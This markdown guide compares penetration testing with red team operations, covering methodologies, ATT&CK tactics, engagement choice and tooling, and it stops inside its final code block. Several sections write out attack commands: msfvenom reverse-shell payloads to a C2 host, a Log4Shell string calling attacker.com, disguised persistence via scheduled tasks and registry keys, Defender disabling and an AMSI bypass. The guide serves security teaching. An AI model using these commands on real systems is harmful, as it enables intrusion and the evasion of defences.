



# Red Team vs Penetration Testing — Complete Comparison

> **Difficulty:** Beginner → Advanced | **Category:** Penetration Testing

---

## Table of Contents

1. [Introduction — Why the Distinction Matters](#1-introduction)
2. [Penetration Testing Explained](#2-penetration-testing-explained)
3. [Red Team Operations Explained](#3-red-team-operations-explained)
4. [Detailed Comparison Table](#4-detailed-comparison-table)
5. [MITRE ATT&CK Framework Overview](#5-mitre-attck-framework-overview)
6. [When to Choose Pentest vs Red Team](#6-when-to-choose)
7. [Blue Team Context](#7-blue-team-context)
8. [Purple Team — The Middle Ground](#8-purple-team)
9. [Engagement Timeline Diagrams](#9-engagement-timeline-diagrams)
10. [Real-World Scenarios](#10-real-world-scenarios)
11. [Tooling Comparison](#11-tooling-comparison)
12. [MITRE ATT&CK Technique Examples with Commands](#12-mitre-attck-technique-examples)
13. [OPSEC Considerations for Red Teaming](#13-opsec-considerations)
14. [Reporting Differences](#14-reporting-differences)

---

## 1. Introduction

In the security industry, "penetration testing" and "red team operations" are often used interchangeably — incorrectly. They share DNA but serve fundamentally different purposes, answer different questions, and require different skill sets, timelines, and mindsets.

**The core question each engagement answers:**

| Engagement Type | Core Question |
|---|---|
| Penetration Test | *"Are there exploitable vulnerabilities in this system/scope?"* |
| Red Team Operation | *"Can a real adversary achieve this business-critical objective without being detected?"* |

Getting this distinction wrong costs organizations money and false confidence. A company that runs a pentest when it needed a red team assessment may fix individual CVEs while remaining completely blind to its detection gaps, incident response failures, and the adversary pathways that combine low-severity findings into catastrophic breaches.

### Why This Matters in Practice

- **Compliance frameworks** (PCI-DSS, SOC 2, ISO 27001) often mandate penetration testing — not red team operations. Understanding the difference prevents scope creep and ensures compliance is actually met.
- **Security maturity** determines which engagement delivers value. A 20-person startup with no SOC gains nothing from a red team engagement; it needs a comprehensive pentest first.
- **Budget allocation** differs significantly. Red team engagements routinely cost 3–10× more than equivalent penetration tests.
- **Blue team readiness** is tested only by red team operations, not by traditional pentests.

> **Note:** This note focuses on the conceptual and methodological differences. For hands-on tooling guides, see the individual tool notes in `03-tools/`.

---

## 2. Penetration Testing Explained

### 2.1 Definition and Goals

A penetration test is a **structured, time-boxed security assessment** in which testers attempt to identify and exploit vulnerabilities within a **defined scope**, then document every finding. The primary output is a vulnerability report with remediation guidance.

**Goals of a penetration test:**
- Identify as many exploitable vulnerabilities as possible within scope
- Demonstrate the impact of each finding (proof-of-concept exploitation)
- Provide actionable remediation guidance prioritized by risk
- Satisfy compliance requirements (PCI-DSS Requirement 11.4, etc.)
- Establish a security baseline for the target environment

### 2.2 Scope and Boundaries

Penetration tests operate within a strictly defined scope document called the **Statement of Work (SoW)** or **Rules of Engagement (RoE)**. Scope typically includes:

- IP ranges or hostnames (e.g., `10.10.0.0/16`, `app.example.com`)
- Application URLs and endpoints
- Specific systems or services
- Excluded systems (production databases, third-party services, etc.)
- Testing windows (business hours vs. off-hours)
- Allowed/disallowed techniques (e.g., no DoS attacks)

**Scope is sacred.** Testing outside scope — even accidentally — can expose the assessor to legal liability and is considered a serious professional breach.

### 2.3 Methodologies

Penetration testing follows well-established methodologies:

#### PTES — Penetration Testing Execution Standard
Seven phases:
1. Pre-engagement interactions
2. Intelligence gathering
3. Threat modelling
4. Vulnerability analysis
5. Exploitation
6. Post-exploitation
7. Reporting

#### OWASP Testing Guide (OTG)
Primarily focused on web application testing. Covers 91 test cases organized across categories like authentication, session management, input validation, and business logic.

#### NIST SP 800-115
US government standard. Four phases:
1. Planning
2. Discovery
3. Attack
4. Reporting

### 2.4 Types of Penetration Tests

| Type | Description | Example Target |
|---|---|---|
| Network (Internal) | Test internal network from inside the perimeter | Active Directory, internal services |
| Network (External) | Test perimeter from the internet | Firewalls, exposed services, VPNs |
| Web Application | Test web apps for OWASP Top 10 + logic flaws | APIs, portals, e-commerce apps |
| Mobile Application | Test iOS/Android apps | Mobile banking, enterprise apps |
| Social Engineering | Phishing, vishing, physical pretexting | Employees, help desk |
| Physical | Bypass physical security controls | Server rooms, badge readers |
| Wireless | Attack Wi-Fi networks | WPA2-Enterprise, rogue APs |
| Cloud | Assess cloud configurations and services | AWS, Azure, GCP misconfigurations |

### 2.5 Knowledge Levels

| Box Type | Tester Has | Simulates |
|---|---|---|
| **Black Box** | Only target name/IP | External attacker with no prior knowledge |
| **Grey Box** | Credentials, architecture diagrams, some source | Insider threat or attacker with recon data |
| **White Box** | Full source code, network diagrams, all credentials | Thorough code/config audit |

### 2.6 Typical Pentest Workflow

```bash
# Phase 1: Reconnaissance
nmap -sn 10.10.0.0/24                         # Host discovery
nmap -sV -sC -p- --min-rate 5000 10.10.0.5    # Full service scan
whatweb https://target.example.com             # Web tech fingerprinting
gobuster dir -u https://target.example.com -w /usr/share/wordlists/dirb/common.txt

# Phase 2: Vulnerability Scanning
nmap --script vuln 10.10.0.5
nikto -h https://target.example.com
nuclei -u https://target.example.com -t cves/

# Phase 3: Exploitation
msfconsole
use exploit/multi/handler
set LHOST 10.10.14.5
set LPORT 4444
run

# Phase 4: Post-Exploitation (limited, demonstration only)
whoami && id
hostname && uname -a
cat /etc/passwd | head -20
ipconfig /all    # Windows equivalent: enumerate network

# Phase 5: Documentation
# Screenshot every step, log all commands, note timestamps
```

### 2.7 Deliverables

A penetration test produces:

1. **Executive Summary** — high-level findings for C-suite and board audience; no technical jargon
2. **Technical Report** — detailed finding per vulnerability including:
   - CVSS score
   - Evidence (screenshots, output)
   - Step-by-step reproduction
   - Remediation recommendation
3. **Remediation Guidance** — prioritized fix list
4. **Risk Register** — each finding mapped to business risk
5. **(Optional) Retest** — verify fixes after remediation

> **Note:** A good pentest report should be actionable by a developer with no security background. If developers cannot fix findings from your report, the report has failed.

---

## 3. Red Team Operations Explained

### 3.1 Definition and Goals

A red team operation is a **covert, adversary-simulation engagement** in which a team of skilled operators attempts to achieve specific **business-critical objectives** (called "flags" or "crown jewels") while **evading detection** by the defending team (blue team / SOC).

The primary output is not a vulnerability list — it is a **narrative of what an adversary could realistically accomplish** and a **gap analysis of detection and response capabilities**.

**Goals of a red team operation:**
- Simulate a specific threat actor's TTPs (Tactics, Techniques, and Procedures)
- Test the blue team's ability to detect, alert, and respond to an intrusion
- Achieve defined objectives (exfiltrate sensitive data, achieve domain admin, compromise OT systems)
- Identify detection gaps, alerting failures, and IR process weaknesses
- Avoid detection for as long as operationally realistic

> **Warning:** A red team that is detected and stopped early does not indicate "the engagement failed." Detection is valuable data. The question becomes: *how quickly* was the team detected, *what triggered* the alert, and *how effective* was the response?

### 3.2 Objectives and "Crown Jewels"

Red team engagements are scoped around **objectives**, not systems. Common objectives:

| Objective | Description |
|---|---|
| Domain Dominance | Achieve Domain Admin / Enterprise Admin in Active Directory |
| Data Exfiltration | Extract a specific file (e.g., `crown_jewels.xlsx`) from a protected share |
| Ransomware Simulation | Demonstrate ability to encrypt critical systems (without actually encrypting) |
| Insider Threat Simulation | Test what a malicious employee could access |
| Supply Chain Simulation | Test whether a compromised vendor account can pivot inward |
| OT/ICS Access | Reach operational technology network from corporate IT network |

### 3.3 TTPs — Tactics, Techniques, and Procedures

Red teams model real threat actors. TTPs describe *how* an adversary operates:

- **Tactic** — the *why* (e.g., Initial Access, Persistence, Lateral Movement)
- **Technique** — the *what* (e.g., Spearphishing Attachment, Valid Accounts)
- **Procedure** — the specific *how* (e.g., sending a malicious `.lnk` file via LinkedIn to finance team)

TTPs are drawn from threat intelligence:
- MITRE ATT&CK (see Section 5)
- Known APT group profiles (APT28, Lazarus Group, FIN7, etc.)
- Current threat intel feeds (ISAC, vendor reports)
- Client-specific threat model (who would actually target this org?)

### 3.4 OPSEC in Red Teaming

Operational Security (OPSEC) is what separates red team operations from penetration tests. Red teamers must:

- **Blend into normal traffic** — use LOLBins (Living off the Land Binaries), legitimate cloud services (Teams, SharePoint, Dropbox) as C2 channels
- **Avoid noisy tools** — Nessus scans, Metasploit default signatures, and masscan all trigger alerts
- **Maintain separate infrastructure** — dedicated C2 servers, redirectors, domain fronting
- **Rotate infrastructure** — never reuse IPs/domains across operations
- **Clean up artifacts** — remove logs, tools, persistence mechanisms at end of operation
- **Mimic legitimate user behavior** — slow reconnaissance, realistic working hours

### 3.5 Red Team Infrastructure

A mature red team maintains dedicated infrastructure:

```
[Operator] → [VPN] → [Team Server] → [Redirector] → [Target]
                          ↓
                  [Phishing Server]
                  [File Hosting]
                  [Domain Fronting CDN]
```

- **Team Server** — Cobalt Strike / Havoc / Sliver C2 server, never directly exposed
- **Redirector** — Nginx/Apache proxy that forwards traffic to team server; burned if detected
- **Domain Fronting** — Route C2 traffic through trusted CDNs (Cloudflare, AWS CloudFront)
- **Phishing Infrastructure** — GoPhish or Evilginx2 on separate VPS

### 3.6 Red Team Phases

1. **Planning & Threat Modelling** — Define objectives, threat actor profile, RoE
2. **OSINT & Reconnaissance** — Passive intelligence gathering (no direct target contact)
3. **Initial Access** — Establish foothold (phishing, public-facing exploits, supply chain)
4. **Command & Control** — Establish persistent, covert C2 channel
5. **Internal Reconnaissance** — Map the environment from inside
6. **Lateral Movement** — Pivot toward objectives
7. **Privilege Escalation** — Gain necessary permissions
8. **Objective Achievement** — Reach crown jewels
9. **Exfiltration / Impact Simulation** — Demonstrate impact
10. **Cleanup & Debrief** — Remove artifacts, debrief with blue team

---

## 4. Detailed Comparison Table

| Dimension | Penetration Test | Red Team Operation |
|---|---|---|
| **Primary Objective** | Find as many vulnerabilities as possible | Achieve specific adversarial objectives; test detection/response |
| **Scope** | Defined list of IPs, apps, systems | Entire organization (may include physical, social engineering) |
| **Duration** | 1–4 weeks typical | 3–6 months typical (some are 12+ months continuous) |
| **Team Size** | 1–3 testers | 3–10 operators (red cell) with dedicated lead |
| **Methodology** | Systematic vulnerability enumeration | Threat-actor emulation, TTP-driven |
| **Stealth Requirement** | Low — detection is acceptable | High — evading the SOC is a primary goal |
| **Rules of Engagement** | Strict scope; out-of-scope is forbidden | Broad; may include physical intrusion, phone calls, email |
| **Deliverables** | Vulnerability report with CVSS scores | Attack narrative, detection gap report, TTPs used |
| **Cost (typical)** | \$5,000 – \$50,000 | \$50,000 – \$500,000+ |
| **Knowledge Level** | Black, grey, or white box | Typically black box (simulates real adversary) |
| **Detection Objective** | Not relevant — focus is on finding vulns | Critical — measures SOC effectiveness |
| **Reporting Audience** | IT/Dev teams + CISO | CISO, SOC leads, Incident Response team, board |
| **Blue Team Awareness** | Usually aware (coordinated testing) | Usually unaware (blind engagement) |
| **Compliance Value** | High — satisfies PCI-DSS, ISO 27001, SOC 2 | Low — not a compliance substitute |
| **Attack Realism** | Medium — tools may be noisy | High — mirrors actual APT behavior |
| **Success Metric** | Number/severity of vulnerabilities found | Whether objectives were achieved; time-to-detect (TTD) |

---

## 5. MITRE ATT&CK Framework Overview

### 5.1 What Is MITRE ATT&CK?

MITRE ATT&CK (Adversarial Tactics, Techniques, and Common Knowledge) is a **globally-accessible knowledge base** of adversary behavior based on real-world observations of attacks. It was developed by MITRE Corporation and is freely available at [attack.mitre.org](https://attack.mitre.org).

ATT&CK is the language red teams and blue teams use to communicate about adversary behavior. It removes ambiguity: instead of saying "we moved laterally," a team can say "we used T1021.002 (SMB/Windows Admin Shares)."

### 5.2 ATT&CK Matrices

| Matrix | Focus | Tactics Count |
|---|---|---|
| **Enterprise** | Windows, macOS, Linux, Cloud, Network, Containers | 14 tactics |
| **Mobile** | Android and iOS | 12 tactics |
| **ICS** | Industrial Control Systems (OT/SCADA) | 12 tactics |

### 5.3 Enterprise ATT&CK Tactics (in kill-chain order)

| Tactic | ID | Description |
|---|---|---|
| Reconnaissance | TA0043 | Gather info to plan future operations |
| Resource Development | TA0042 | Acquire infrastructure, tools, accounts |
| Initial Access | TA0001 | Get into the target environment |
| Execution | TA0002 | Run malicious code |
| Persistence | TA0003 | Maintain foothold across reboots |
| Privilege Escalation | TA0004 | Gain higher permissions |
| Defense Evasion | TA0005 | Avoid detection/defenses |
| Credential Access | TA0006 | Steal credentials |
| Discovery | TA0007 | Understand the environment |
| Lateral Movement | TA0008 | Move through the network |
| Collection | TA0009 | Gather data of interest |
| Command and Control | TA0011 | Communicate with compromised systems |
| Exfiltration | TA0010 | Steal data |
| Impact | TA0040 | Disrupt, destroy, or manipulate |

### 5.4 Tactics vs Techniques vs Sub-Techniques

```
Tactic (WHY)
  └── Technique (WHAT)
        └── Sub-Technique (HOW specifically)
```

**Example hierarchy:**
```
Credential Access (TA0006)
  └── OS Credential Dumping (T1003)
        ├── LSASS Memory (T1003.001)
        ├── Security Account Manager (T1003.002)
        ├── NTDS (T1003.003)
        └── /etc/passwd and /etc/shadow (T1003.008)
```

Each technique has:
- **ID** (e.g., T1003.001)
- **Description** of the behavior
- **Procedure examples** from real APT groups
- **Mitigations** recommended
- **Detection** guidance for defenders

### 5.5 How Red Teams Use ATT&CK

Red teams use ATT&CK to:

1. **Plan the operation** — Select a threat actor profile (e.g., APT29) and map their known TTPs to simulate
2. **Execute with intent** — Each action maps to a specific technique ID, logged in the operator journal
3. **Measure coverage** — Use ATT&CK Navigator to visualize which techniques were tested
4. **Report findings** — Every finding is tagged with ATT&CK IDs for blue team correlation
5. **Identify gaps** — Compare techniques exercised against SIEM detection rules in place

```bash
# ATT&CK Navigator — spin up locally
git clone https://github.com/mitre-attack/attack-navigator.git
cd attack-navigator/nav-app
npm install
npm run start
# Access at http://localhost:4200
```

### 5.6 ATT&CK for Blue Teams

Blue teams use ATT&CK to:
- Map SIEM detection rules to technique IDs (coverage heatmap)
- Identify detection blind spots
- Triage alerts by tactic/technique context
- Build detection logic for high-priority techniques

> **Note:** A red team ATT&CK report and a blue team detection heatmap should be compared side-by-side in a purple team exercise to close gaps systematically.

---

## 6. When to Choose

### 6.1 Decision Framework

```
Start here
     │
     ▼
Do you have a defined security program (policies, patching, basic monitoring)?
     │
     ├── NO ──→ Start with a VULNERABILITY ASSESSMENT or PENTEST (External)
     │          Fix findings. Build your program first.
     │
     └── YES
          │
          ▼
     Do you have a SOC or dedicated detection capability?
          │
          ├── NO ──→ PENETRATION TEST
          │         Focus on fixing technical vulnerabilities.
          │         SOC without detection rules = no value in red team.
          │
          └── YES
               │
               ▼
          Are you trying to satisfy a compliance requirement?
               │
               ├── YES ──→ PENETRATION TEST
               │          Red team does NOT satisfy PCI-DSS 11.4, ISO 27001 A.18.2.3
               │
               └── NO
                    │
                    ▼
               Do you want to test your incident response capability?
                    │
                    ├── YES ──→ RED TEAM OPERATION
                    │
                    └── BOTH ──→ RED TEAM + DEBRIEF (purple team phase)
```

### 6.2 Organizational Maturity Model

| Maturity Level | Description | Recommended Assessment |
|---|---|---|
| **Level 1** | Ad-hoc security, no formal program | Vulnerability assessment |
| **Level 2** | Basic patching, firewall, some policies | External + Internal penetration test |
| **Level 3** | Defined security program, SIEM deployed | Web app pentest, annual full pentest |
| **Level 4** | SOC, IR team, threat intel, detection rules | Red team engagement |
| **Level 5** | Mature SOC, purple team capability, CTI | Continuous red team / adversary simulation |

### 6.3 Budget Considerations

| Factor | Pentest Budget Signal | Red Team Budget Signal |
|---|---|---|
| Security spend as % of IT budget | <5% | >8% |
| Dedicated SOC? | No | Yes (24/7 preferred) |
| Previous pentest findings? | Not all remediated | Remediated + re-tested |
| Compliance driver? | Primary driver | Secondary or absent |
| Board-level security appetite | Moderate | High |

### 6.4 Compliance Mapping

| Framework | Penetration Testing Requirement | Red Team Acceptable? |
|---|---|---|
| PCI-DSS v4.0 (Req 11.4) | Annual pentest of CDE | No — pentest required specifically |
| ISO 27001:2022 (A.8.8) | Vulnerability management | Supplementary only |
| SOC 2 Type II | Pentest evidence required | Supplementary only |
| DORA (EU Financial) | TLPT (Threat-Led Penetration Testing) | Yes — TLPT is essentially red team |
| CBEST (UK Financial) | Intelligence-led red team | Yes — red team required |
| TIBER-EU | Threat Intelligence-Based Ethical Red Teaming | Yes — red team required |

> **Note:** TIBER-EU and CBEST are financial-sector frameworks that *require* red team operations, not traditional pentests. They are the exception to the compliance rule.

---

## 7. Blue Team Context

### 7.1 Blue Team in a Penetration Test

During a penetration test, the blue team typically:

- **Is informed** that a pentest is occurring (coordinated engagement)
- **Does not respond** actively to pentest traffic (to avoid interfering with testing)
- **Receives the report** and works with pentesters to understand findings
- **May provide white-box access** to help scope the engagement

The blue team learns from the pentest report, not from the engagement itself in real-time.

### 7.2 Blue Team in a Red Team Operation

During a red team operation, the blue team:

- **Is NOT informed** of the engagement timeline (blind engagement)
- **Must detect and respond** as they would to a real attack
- **Is evaluated** on Time-to-Detect (TTD), Time-to-Respond (TTR), and containment quality
- **Participates in debrief** where red team reveals timeline and the blue team correlates with their logs

The blue team learns from the *experience of defending against a real-world-quality attack*, which is far more valuable than reading a report.

### 7.3 Key Blue Team Metrics Red Teams Measure

| Metric | Description | Good Target |
|---|---|---|
| **TTD** (Time to Detect) | From initial compromise to first alert | < 24 hours |
| **TTR** (Time to Respond) | From first alert to containment action | < 4 hours |
| **Detection Rate** | % of red team actions that triggered alerts | > 80% |
| **Alert Fidelity** | % of alerts that were true positives | > 50% |
| **Objective Prevention** | Whether red team achieved its objectives | 0/N objectives reached |

> **Warning:** A blue team that detects the red team on Day 1 via a noisy signature but misses the follow-on lateral movement for 3 weeks has a **false sense of security**. Detection breadth matters more than a single early alert.

---

## 8. Purple Team

### 8.1 What Is Purple Team?

Purple team is the **collaborative fusion of red and blue team activities**. Rather than a blind adversarial engagement, purple teaming involves:

- Red and blue team working *together* in real-time
- Red team executes a technique → blue team checks if it was detected
- If not detected → blue team immediately writes/refines detection logic
- Repeat for the entire ATT&CK technique list

Purple teaming is the **fastest way to improve detection coverage** because it closes the loop immediately rather than waiting for a post-engagement report.

### 8.2 Purple Team vs Red Team

| Aspect | Red Team | Purple Team |
|---|---|---|
| Blue team awareness | Blind | Fully collaborative |
| Primary output | Detection gap narrative | Detection rules, SIEM content |
| Stealth | Required | Not relevant |
| Adversary realism | High | Medium |
| Detection improvement speed | Slow (report → fix cycle) | Fast (immediate loop) |

> **Note:** A dedicated purple team note covering atomic testing, Atomic Red Team, and VECTR platform is in `02-methodologies/purple-team.md`.

---

## 9. Engagement Timeline Diagrams

### 9.1 Typical Penetration Test Timeline



### 9.2 Typical Red Team Operation Timeline



### 9.3 Kill Chain Comparison Diagram



---

## 10. Real-World Scenarios

### 10.1 Scenario: New Application Deployment

**Situation:** Your company just deployed a new customer-facing e-commerce application built on a Node.js/React stack with a PostgreSQL backend. It handles credit card data.

**Why Penetration Test:**
- New attack surface needs vulnerability enumeration
- PCI-DSS compliance requires testing of CDE
- Developers need actionable bugs to fix
- Unknown vulnerabilities in dependencies and custom code
- Time-to-fix is the primary concern, not detection

**What the test would cover:**
```bash
# OWASP Top 10 testing
sqlmap -u "https://shop.example.com/product?id=1" --dbs --batch
# Authentication bypass
burpsuite --project-file shop_test.burp
# JWT token weaknesses
jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9... -T
# Dependency CVEs
npm audit --json | jq '.vulnerabilities | keys[]'
retire --js --path ./node_modules
# SSRF
curl "https://shop.example.com/fetch?url=http://169.254.169.254/latest/meta-data/"
# Path traversal
curl "https://shop.example.com/static/../../../etc/passwd"
```

**Expected deliverable:** 15–40 page technical report with CVSS-scored vulnerabilities, PoC screenshots, and remediation steps for the dev team.

---

### 10.2 Scenario: Testing Incident Response Capability

**Situation:** Your company has a 10-person SOC, a mature SIEM (Splunk), EDR deployed on all endpoints (CrowdStrike), and has been running a security program for 3 years. Leadership wants to know: "If APT29 targeted us tomorrow, would we catch it?"

**Why Red Team:**
- The question is about detection and response, not vulnerability count
- SOC has detection rules that need real-world testing
- Existing tools (EDR, SIEM) need adversary-quality validation
- IR playbooks need real exercise
- Leadership needs narrative evidence, not a CVE list

**What the operation would simulate:**
- APT29 (Cozy Bear) TTP profile — known for spearphishing, use of legitimate cloud services, living off the land
- Initial access via spearphishing with `.lnk` payload (T1566.001, T1547.009)
- C2 via HTTPS to Cloudflare-fronted domain (T1071.001, T1090.004)
- Lateral movement via WMI and PSExec (T1021.003, T1569.002)
- Credential dumping via LSASS (T1003.001) — but with process injection to evade EDR
- Objective: reach the CFO's mailbox and exfiltrate Q4 financial projections

**Expected deliverable:** 50+ page narrative report covering: attack timeline, detection events triggered (and missed), IR response quality assessment, and ATT&CK coverage heatmap.

---

### 10.3 Scenario: M&A Security Due Diligence

**Situation:** Your company is acquiring a smaller firm. You have 3 weeks to assess their security posture before closing.

**Why Penetration Test (not Red Team):**
- Time-constrained: 3 weeks max
- Goal: identify material security risks, not test detection
- Acquired firm's SOC (if any) should not be stressed during due diligence
- Deliverable needed by legal/finance team to inform deal terms

**Scope would include:**
- External attack surface scan
- Web application testing of core products
- Active Directory assessment (grey box with credentials)
- Cloud configuration review (S3 buckets, IAM policies)

---

## 11. Tooling Comparison

### 11.1 Red Team Tooling

| Tool | Purpose | Notes |
|---|---|---|
| **Cobalt Strike** | Primary C2 framework | Industry standard; expensive (~\$8,000/yr); well-known signatures |
| **Brute Ratel C4** | C2 framework | Designed to evade EDR; used by real APTs (Lazarus mimicry) |
| **Havoc Framework** | Open-source C2 | Free alternative to Cobalt Strike; Demon agent |
| **Sliver** | Open-source C2 | Go-based; mTLS/WireGuard C2 channels; BishopFox |
| **Nighthawk** | C2 framework | Commercial; strong EDR evasion focus |
| **Evilginx2** | AiTM phishing proxy | Captures session tokens; bypasses MFA |
| **GoPhish** | Phishing campaign management | Open-source; tracks opens/clicks |
| **Covenant** | .NET C2 | Open-source; Grunt implants |
| **Merlin** | HTTP/2 C2 | Go-based; uses HTTP/2 to evade inspection |
| **Nimcrypt2** | Payload encryption/obfuscation | Nim-based AV/EDR evasion |

```bash
# Havoc C2 — quick setup example
git clone https://github.com/HavocFramework/Havoc.git
cd Havoc
# Build the teamserver
cd teamserver && go mod download && go build -o teamserver . && cd ..
# Build the client
cd client && npm i && npm run build && cd ..
# Start teamserver with profile
./teamserver/teamserver server --profile ./profiles/havoc.yaotl

# Sliver C2 — quick setup
curl https://sliver.sh/install | sudo bash
sliver-server
# In sliver console:
# generate --mtls 10.10.14.5 --os windows --arch amd64 --format exe
# mtls --lport 8888
```

### 11.2 Penetration Test Tooling

| Tool | Purpose | Notes |
|---|---|---|
| **Nmap** | Network scanning and service detection | The starting point of every pentest |
| **Metasploit Framework** | Exploitation framework | Open-source; noisy signatures; great for PoC |
| **Burp Suite Pro** | Web application testing proxy | Standard for web pentests |
| **Nuclei** | Template-based vulnerability scanner | Fast; community templates for thousands of CVEs |
| **Nikto** | Web server scanner | Legacy but useful for quick checks |
| **SQLMap** | Automated SQL injection | Very effective; use carefully in scope |
| **Hydra** | Password brute-forcing | Multi-protocol; SSH, FTP, HTTP, SMB |
| **John the Ripper** | Password cracking | Offline hash cracking |
| **Hashcat** | GPU-accelerated hash cracking | Far faster than JtR on GPUs |
| **BloodHound** | Active Directory attack path mapping | Essential for AD engagements |
| **Impacket** | Python AD/SMB tools | GetNPUsers, secretsdump, psexec |
| **Responder** | LLMNR/NBT-NS poisoning | Captures NTLMv2 hashes on local network |
| **CrackMapExec (CME)** | AD Swiss Army knife | Enumeration, spray, execution |
| **Gobuster / ffuf** | Directory and subdomain fuzzing | Fast content discovery |

```bash
# Standard pentest recon workflow
# 1. Discover live hosts
nmap -sn 10.10.0.0/24 -oG - | grep Up | awk '{print $2}' > live_hosts.txt

# 2. Full service scan on live hosts
nmap -iL live_hosts.txt -sV -sC -p- --min-rate 3000 -oA full_scan

# 3. Web enumeration
for host in $(cat live_hosts.txt); do
    gobuster dir -u http://$host -w /usr/share/seclists/Discovery/Web-Content/common.txt \
        -t 40 -o gobuster_${host}.txt 2>/dev/null &
done

# 4. BloodHound AD collection (authenticated)
bloodhound-python -u 'user' -p 'Password1' -d corp.local -ns 10.10.0.1 \
    -c All --zip

# 5. Kerberoasting (T1558.003)
impacket-GetUserSPNs corp.local/user:Password1 -dc-ip 10.10.0.1 \
    -outputfile kerberoast_hashes.txt

# 6. Crack hashes
hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt \
    --force -r /usr/share/hashcat/rules/best64.rule
```

---

## 12. MITRE ATT&CK Technique Examples

### 12.1 Initial Access

#### T1566.001 — Spearphishing Attachment
Red team-grade phishing with a macro-enabled document:
```bash
# Generate malicious Office document with Metasploit (noisy, for pentest demo)
msfvenom -p windows/x64/meterpreter/reverse_https \
    LHOST=10.10.14.5 LPORT=443 -f raw > shellcode.bin

# Red team approach: Use a legitimate-looking document via macro4 or VBA
# More advanced: mshta.exe payload via HTA
msfvenom -p windows/x64/meterpreter/reverse_https \
    LHOST=redteam.c2.example.com LPORT=443 -f hta-psh -o payload.hta
```

#### T1190 — Exploit Public-Facing Application
```bash
# Identify vulnerable services
nuclei -u https://target.example.com -t cves/ -severity critical,high -o cve_hits.txt

# Example: Log4Shell (CVE-2021-44228)
curl -H 'X-Api-Version: ${jndi:ldap://attacker.com/a}' https://target.example.com/api/v1/

# Example: ProxyShell (CVE-2021-34473)
python3 proxyshell.py --target https://mail.corp.com --email admin@corp.com
```

### 12.2 Persistence

#### T1053.005 — Scheduled Task/Job
```bash
# Windows: Create scheduled task that persists across reboots
schtasks /create /tn "WindowsUpdate" /tr "C:\Windows\Temp\svc.exe" \
    /sc onlogon /ru SYSTEM /f

# PowerShell equivalent (stealthier)
$action = New-ScheduledTaskAction -Execute "C:\Windows\Temp\svc.exe"
$trigger = New-ScheduledTaskTrigger -AtLogon
Register-ScheduledTask -TaskName "WindowsDefender" -Action $action \
    -Trigger $trigger -RunLevel Highest -Force
```

#### T1547.001 — Registry Run Keys
```bash
# Persistence via registry (Windows)
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" \
    /v "SecurityHealth" /t REG_SZ /d "C:\Windows\Temp\update.exe" /f

# PowerShell
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" \
    -Name "OneDrive" -Value "C:\Windows\Temp\beacon.exe"
```

### 12.3 Defense Evasion

#### T1055.012 — Process Hollowing
```bash
# Process hollowing is typically done via custom C code or Cobalt Strike
# Concept: spawn a legitimate process (svchost.exe), hollow it, inject shellcode
# In Cobalt Strike Beacon:
# spawn svchost.exe
# inject <PID> x64 <listener>

# Detection evasion via parent process spoofing (CreateProcess with PPID spoofing)
# Common in: Havoc, Cobalt Strike, Sliver
```

#### T1562.001 — Disable Security Tools
```bash
# Disable Windows Defender (requires admin; very noisy — blue team will alert)
Set-MpPreference -DisableRealtimeMonitoring $true
# Exclude path from Defender scanning
Add-MpPreference -ExclusionPath "C:\Windows\Temp\"

# Red team approach: prefer evasion over disabling (disabling is high-signal IOC)
# Use AMSI bypass instead:
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
